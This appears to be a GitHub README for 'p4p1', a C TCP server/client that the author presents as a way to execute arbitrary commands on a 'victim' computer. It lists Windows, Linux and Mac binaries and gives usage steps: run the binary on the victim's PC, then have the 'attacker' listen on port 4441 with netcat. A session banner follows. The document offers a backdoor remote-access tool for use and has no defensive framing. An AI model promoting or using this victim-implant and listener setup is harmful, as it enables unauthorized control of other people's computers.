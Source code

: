 # p4p1
C open Source TCP server/client to execute arbitury commands on victim computer. They are all in developpement state.
For now the only stable versions are:

##Windows
   	-p4p1-o_64.exe
   	-p4p1-o_32.exe
##Linux
   	-p4p1
##Mac
    -p4p1-mac_binairy


#How To use:
For the p4p1-o verison you need to execute them on the victim's PC,
and then open you're port 4441 and listen on it using any tcp server for exemple netcat.

For the p4p1 basic binaries, it is a command line program and you need to put it into server mode on the victim's PC
with the listening port, and connect to it with the client in the same app.

#Exemple:

##Victim:
Execute p4p1-o_Vx.exe

##Attacker:
nc -l 4441<br />
0<br />
       _ _       _<br />
  _ __| | | _ __/ |<br />
 | '_ \_  _| '_ \ |<br />
 | .__/ |_|| .__/_|<br />
 |_|       |_|<br />
<br />
<p4p1 /><br />
